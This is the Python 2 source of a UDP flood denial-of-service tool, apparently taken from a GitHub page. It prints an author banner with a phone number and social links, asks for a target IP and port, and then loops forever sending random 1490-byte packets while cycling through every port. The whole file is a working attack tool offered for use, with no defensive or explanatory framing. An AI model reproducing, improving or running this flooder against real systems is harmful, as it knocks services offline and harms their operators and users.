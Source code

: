 # brandimport sys

import os

import time

import socket

import random

#Code Time

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year

##############

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

#############

os.system("clear")

os.system("figlet DDos Attack")

print

print "Author   : BURHAN"

print "WhatsApp : 03023095528"

print "github   : https://github.com/burhanali007"

print "Facebook : https://www.facebook.com/burhanali00"

print

ip = raw_input("IP Target : ")

port = input("Port       : ")

os.system("clear")

os.system("figlet Attack Starting")

print "[                    ] 0% "

time.sleep(5)

print "[=====               ] 25%"

time.sleep(5)

print "[==========          ] 50%"

time.sleep(5)

print "[===============     ] 75%"

time.sleep(5)

print "[====================] 100%"

time.sleep(3)

sent = 0

while True:

     sock.sendto(bytes, (ip,port))

     sent = sent + 1

     port = port + 1

     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)

     if port == 65534:

       port = 1
